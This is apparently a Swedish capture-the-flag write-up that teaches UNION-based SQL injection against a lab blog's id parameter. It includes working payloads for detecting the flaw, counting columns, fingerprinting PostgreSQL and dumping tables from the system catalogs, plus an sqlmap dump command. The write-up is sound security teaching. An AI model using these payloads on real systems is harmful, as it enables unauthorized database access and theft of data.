 # Bästa bloggen

När vi tittar runt på bloggen ser vi att vilket blogginlägg som visas beror på GET-parametern `id` i URL:en. Den kan vara värd att undersöka. När vi testar med 0, 1 och 2 ser vi blogginlägg. Men om vi testar högre siffror så visas inget på skärmen. Samma sak om vi skriver in -1 eller mindre. Gissningsvis så sparas blogginläggen i en databas som webbservern pratar med och gissningsvis är det en SQL-databas då dessa är de mest vanliga. En vanlig sårbarhet som är värd att kolla efter är SQL-injection (SQLi). Den uppstår när man lägger in användarkontrollerade strängar direkt i SQL-statements. Detta gör så att användaren kan kontrollera delar av SQL-koden som körs på databasen.

- Du kan läsa mer om SQLi här: https://en.wikipedia.org/wiki/SQL_injection
- Eller kolla på videos om det här: https://www.youtube.com/results?search_query=sql+injection
- Det här är en väldigt bra resurs för vanliga saker man vill göra med SQLi i olika databaser: http://pentestmonkey.net/category/cheat-sheet/sql-injection

Hur kan vi kolla om vi har en SQLi-sårbarhet här? Då måste vi först föreställa oss hur SQL-statementet kan se ut. Det skulle kunna se ut något i stil med det här:

```sql
SELECT ... FROM ... WHERE id = <VÅR_INDATA_HÄR>
```

Om så är fallet skulle vi kunna verifiera det genom att skicka in `id=0 AND 1=2`. Då skulle SQL:en se ut så här:

```sql
SELECT ... FROM ... WHERE id = 0 AND 1=2
```

Då detta alltid är falskt så borde resultatsidan se ut som den gör när vi skickar in en för hög siffra. Och det gör den! Tjoho! Men sidan kanske bara inte visar något när man skickar in strängar som inte är siffror. Så vi behöver testa mer. Tänk om vi skriver in följande `id=5 OR 1=1`. Det skulle se ut så här:

```sql
SELECT ... FROM ... WHERE id = 5 OR 1=1
```

Blogginlägg 5 finns inte, det har vi redan kollat. Så då borde de bli en blank sida. Men med `OR 1=1` så är ju formeln alltid sann. Detta gör att SQL:en kommer att returnera något, gissningsvis det första den hittar, dvs. första blogginlägget. Om vi testar så visar det sig att det stämmer! Tjoho! Nu kan vi vara ganska säkra på att `id`-parametern är sårbar för SQLi. Vi kan göra ett sista test bara för skojs skull, den här gången med `id=1%2B1`. `%2B` är pluss (`+`) fast [URL-enkodat](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=Kw). När webbservern läser strängen vi skickar den så kommer den att konvertera det tillbaka till `+` innan det läggs in i SQL:en. Varför kan man inte bara skriver `+` direkt? För att det konverteras till ett mellanslag. Då har vi följande SQL:

```sql
SELECT ... FROM ... WHERE id = 1+1
```

När detta evalueras så borde vi se blogginlägg nummer 2, och det gör vi! Nu vidare till att utnyttja SQLi:n.

Vi kommer använda oss av något som kallas `UNION-based SQLi`. Detta betyder att vi slänger på `UNION` på det redan existerande queryt och `SELECT`:ar lite mer saker. Ett vanligt användningsfall för `UNION` kan se ut såhär:

```sql
SELECT id, username FROM users UNION SELECT id, username FROM admins;
```

Här läggs resultaten av de enskilda förfrågningarna på varandra. Viktigt att notera är att båda `SELECT`-delarna måste be om samma antal kolumner från tabellen, annars funkar det inte!

Så för att kunna göra vår `UNION-based SQLi` måste vi ta reda på hur många kolumner som den första `SELECT`:en frågar efter. Detta kan vi göra genom att skicka in `1 ORDER BY n` där n är vår gissning på hur många kolumner som finns. Ettan i början är vårt inläggs-id. Om vi testar detta med 1 och 2 så får vi fram inlägget, men om vi testar med 3 så ser sidan ut som när vi väljer ett för stort id. Vi kan då dra slutsatsen att den första `SELECT`:en använder 2 kolumner.

För att vår union ska funka måste även datatyperna matcha i kolumnerna från de två `SELECT`:arna. Detta kan man lösa med följande metod. Börja först med att `UNION`:a med en select lika många `null` som antalet kolumner. Så här:

```sql
SELECT kolumn1, kolumn2 FROM ... WHERE id = 1 UNION SELECT null, null;
```

Det vi då skickar in som id-parametern är `1 UNION SELECT null, null;`. `null` kan `UNION`:as med alla andra datatyper. Sedan är det bara att börja gissa en efter en vad kolumnerna faktiskt har för datatyp. Vanliga exempel är strängar eller nummer.

```sql
-- Test för nummer:
SELECT kolumn1, kolumn2 FROM ... WHERE id = 1 UNION SELECT 4, null;
-- Test för strängar:
SELECT kolumn1, kolumn2 FROM ... WHERE id = 1 UNION SELECT 'hej', null;
```

Om vi testar båda queryna ovan ser vi att första kolumnen innehåller en sträng, för det var bara med strängversionen som inlägg 1 visades. Genom att göra samma test för andra kolumnen kommer vi fram till att även den är en sträng.

Om vi nu skickar följande kan vi styra vad som visas på hemsidan:

```sql
SELECT kolumn1, kolumn2 FROM ... WHERE id = 5 UNION SELECT 'hej', 'hej';
```

Blogginlägg 5 finns inte, så första `SELECT`en kommer inte att ge något resultat. Om man kombinerar detta med nästa select så visas `hej` och `hej` som titel respektive inläggstext på sidan. Nice! Nu kan vi göra godtyckligt `SELECT` och se resultatet. Dags att börja utforska databasen.

Så vilka tabeller finns i databasen och hur kan vi ta reda på vad de heter? Detta sparas på olika ställen i olika sorters SQL-databaser. Det finns postgresql, mysql, oracle sql, mssql, sqlite3 och säkert ännu fler. Hur kan vi ta reda på vilken vi har att göra med? Vi försöker anropa funktioner som bara existerar i en av dem och ser vad som funkar. Här kommer [pentestmonkeys cheat sheets](http://pentestmonkey.net/category/cheat-sheet/sql-injection) väl till pass.

MySQL är nog den mest populära SQL-databasen. I MySQL finns funktionen `@@version`. Låt oss testa att anropa den!

```sql
SELECT kolumn1, kolumn2 FROM ... WHERE id = 5 UNION SELECT @@version, 'hej';
```

Det funkade inte! Det gjorde att inget visades. Då är det antagligen inte MySQL. Näst på listan att testa är Postgresql som nog är den näst populäraste. Där har vi funktionen `version()` istället.

```sql
SELECT kolumn1, kolumn2 FROM ... WHERE id = 5 UNION SELECT version(), 'hej';
```

När vi testar det får vi följande som svar: `PostgreSQL 12.6 (Ubuntu 12.6-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0, 64-bit`. Då vet vi att det är PostgreSQL. Jag hittade följande [artikel](https://www.educba.com/postgresql-list-tables/) som berättar att man kan lista alla tabeller i en postgresql-databas genom att titta i den inbyggda tabellen `pg_catalog.pg_tables`. Efter att ha läst artikeln kan vi konstruera följande query:

```sql
SELECT kolumn1, kolumn2 FROM ... WHERE id = 5 UNION SELECT tablename, 'hej' FROM pg_catalog.pg_tables;
```

Men detta query kan vi lista alla tables. Dock bara en i taget. Hur man vi visa nummer två i resultatlistan? Med `LIMIT 1 OFFSET N` kan vi visa den N:te raden i resultatet. N är noll-indexerad.

```sql
SELECT kolumn1, kolumn2 FROM ... WHERE id = 5 UNION SELECT tablename, 'hej' FROM pg_catalog.pg_tables LIMIT 1 OFFSET 0;
```

Dock finns det alldeles för många tabeller att visa, de allra flesta är inbyggda och innehåller inte någon intressant info för oss. Genom att lägga till `WHERE schemaname != 'information_schema' AND schemaname != 'pg_catalog'` filtrerar vi ut de inbyggda tabellerna.

```sql
SELECT kolumn1, kolumn2 FROM ... WHERE id = 5 UNION SELECT tablename, 'hej' FROM pg_catalog.pg_tables WHERE schemaname != 'information_schema' AND schemaname != 'pg_catalog' LIMIT 1 OFFSET 0;
```

Då ser vi att det finns två tabeller kvar: `posts` och `hemlis_jcndsf`. `posts` låter ju som att den innehåller blogginläggen. `hemlis_jcndsf` låter ju dock intressant, vad kan finnas i den? För att kunna `SELECT`a saker från den tabellen måste vi veta vad kolumnerna heter. Detta kan vi hitta i en av de inbyggda tabellerna, precis som vi hittade vilka tabeller som finns. Vi skickar följande:

```sql
SELECT kolumn1, kolumn2 FROM ... WHERE id = 5 UNION SELECT column_name, 'hej' FROM information_schema.columns WHERE table_name = 'hemlis_jcndsf' LIMIT 1 OFFSET 0;
```

Vi får då fram att det finns en kolumn i tabellen med namn `hemlis_laqws`. Vi kan nu äntligen se vad som finns i tabellen!

```sql
SELECT kolumn1, kolumn2 FROM ... WHERE id = 5 UNION SELECT hemlis_laqws, 'hej' FROM hemlis_jcndsf;
```

Och med det sista SQL-statementet får vi äntligen ut flaggan!

## Alternativ lösning

Alternativ lösning som automatiserar allt det här mha. [sqlmap](http://sqlmap.org/) är att bara köra:

```sh
sqlmap -u 'http://localhost:8080/posts?id=0' --dump
```
